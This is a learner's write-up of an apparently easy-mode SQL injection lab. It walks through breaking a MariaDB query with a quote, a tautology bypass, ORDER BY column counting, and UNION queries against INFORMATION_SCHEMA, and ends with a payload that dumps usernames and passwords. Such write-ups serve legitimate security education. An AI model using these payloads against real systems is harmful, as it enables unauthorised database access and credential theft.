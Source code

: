 Final answer: `' UNION select user, password FROM users #`

Resources

- [Examples of SQL Injection](https://www.pynt.io/learning-hub/owasp-top-10-guide/sql-injection-types-examples-prevention-cheat-sheet)
- [PortSwigger](https://portswigger.net/web-security/sql-injection)
- [SQL Injection Union Attacks](https://portswigger.net/web-security/sql-injection/union-attacks#determining-the-number-of-columns-required)

My thought process:

- This is easy mode. So I figure the web form is doing something like `"select * from users where id =" + id + ";"`
- The instructions say to escape the query. How can I do this? I think it's going to be a quote of some form
- Lesson 1: `admin'` --> `You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version  for the right syntax to use near ''admin''' at line 1`
- I clearly did something. Also I found out thye use MariaDB so that might come in handy.
- Lesson 2: With a little bit of research I found that if I do `bob' or 'a' = 'a` then I get all the data in the table. This is because we close off the string with `bob'` and then use `or` and a statement that is true. Note that this statement needs to end with that pesky quote that we had used to escape in the first place.
- `bob' OR 1=1; #` because we are commenting out the pesky quote. Note that in MariaDB (glad we found that out) you comment with `#` rather than `--` like I'm used to.
- Now how do we get the passwords? I think if we do a union and then label the passwords as one of the user's schema fields.
- This [article](https://portswigger.net/web-security/sql-injection/union-attacks#determining-the-number-of-columns-required) on SQL UNION injections became very handy
- Lesson 3: Enumerate how many columns the query is returning by using `' ORDER BY 1 #` ... `ORDER BY 1000 #`. I found that this column has only two columns. Edit: I guess there were easier ways to find this but I'm glad I learned something
- Based on info from before, I think this means the password will be in a different table. But how can I verify this?
- `' UNION select TABLE_NAME, NULL FROM INFORMATION_SCHEMA.TABLES #` --> This produced A TON of data. But no passwords table
- `' UNION select COLUMN_NAME, NULL FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = 'users' #` --> Looks like the users table has 8 rows. One of them is password. Now this is easy.
- - `' UNION select user, password FROM users #` --> DONE!

